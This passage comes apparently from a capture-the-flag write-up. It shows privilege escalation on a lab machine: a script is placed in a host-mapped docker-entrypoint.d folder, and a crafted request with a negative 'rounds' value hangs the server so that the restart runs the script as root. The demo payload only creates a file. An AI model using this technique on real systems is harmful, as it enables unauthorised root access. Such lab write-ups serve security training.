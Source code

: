 If I send that request to Repeater in Burp and change it to something
greater than 100, it returns a 500 Internal Service Error.

### Crash Server

#### Strategy

The strategy here is to abuse the fact that, as the email said, if the
server hangs, it will restart. Given that the `docker-entrypoint.d`
folder seems mapped into the container from the host, I'll have my
script in that folder and it will be run on restart.

#### POC

I'll make sure my script is in the `docker-entrypoint.d` folder and
executable:



    drew@earlyaccess:/opt/docker-entrypoint.d$ echo -e '#!/bin/bash\n\ntouch /tmp/0xdf' > 0xdf.sh; chmod +x 0xdf.sh



Now, I'll send the command with a negative number of rounds from
Repeater:



    POST /autoplay HTTP/1.1
    Host: 127.0.0.1:9999
    User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text.md,application/.md+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 23
    Origin: http://127.0.0.1:9999
    DNT: 1
    Connection: close
    Referer: http://127.0.0.1:9999/autoplay
    Upgrade-Insecure-Requests: 1

    rounds=-1&verbose=false



This request just hangs. After about 30 seconds, my SSH connection to
the container dies:



    game-tester@game-server:/docker-entrypoint.d$ Connection to 172.19.0.3 closed by remote host.
    Connection to 172.19.0.3 closed.



I few seconds later, the host is back, and I can SSH back in to find
`/tmp/0xdf` owned by root:

